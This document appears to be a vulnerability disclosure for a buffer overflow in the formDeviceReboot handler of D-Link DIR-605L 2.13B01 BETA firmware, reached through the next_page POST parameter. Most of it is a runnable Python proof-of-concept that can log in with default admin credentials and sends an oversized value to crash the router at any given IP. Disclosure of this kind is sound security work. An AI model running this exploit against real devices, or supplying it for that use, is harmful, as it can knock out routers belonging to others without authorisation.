 ## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://support.dlink.com/resource/SECURITY_ADVISEMENTS/DIR-605L/REVB/DIR-605L_REVB_FIRMWARE_v2.13B01_BETA.zip

## Affected version

D-Link DIR-605L 2.13B01 BETA

## Vulnerability details

In the D-Link DIR-605L 2.13B01 BETA firmware has a buffer overflow vulnerability in the `formDeviceReboot` function. The `v4` variable receives the `next_page` parameter from a POST request. However, since the user can control the input of `next_page`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240926115702790](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240926115702790.png)

## POC

```python
import argparse, requests
import sys
import json

if sys.version_info[0] != 3:
    print("Please run the exploit in python3")
    sys.exit(1)

# You can also login with scripts below.
def login():
    login_url = "goform/formLogin"
    url = base_url + "/" + login_url
    print("1. Login: send request to", url)
    login_data = "curTime=1666884522835&FILECODE=a6.jpeg%0D%0A&VERIFICATION_CODE=LSYFZ&login_n=admin&login_pass=YWRtaW4A"
    response = requests.post(url=url, data=login_data, allow_redirects=False)
    print(response.text)


def poc():
    target_url = "goform/formDeviceReboot"
    print("2. get target_url:", target_url)
    url = base_url + "/" + target_url
    print("3. send request to", url)
    
    # Using a dictionary to hold multiple parameters
    data = {
        "next_page": "A" * 2000,  # Adjust the number according to your needs
    }
    
    json_data = json.dumps(data)
    print("request body:", json_data)
    response = requests.post(url=url, json=data, allow_redirects=False)
    print(response.text)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Run the exploit')
    parser.add_argument('ip', type=str, default=None, help='The Router IP')
    args = parser.parse_args()

    global base_url
    base_url = "http://{}".format(args.ip)

    # login()
    poc()

```

![image-20240926120958699](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240926120958699.png)
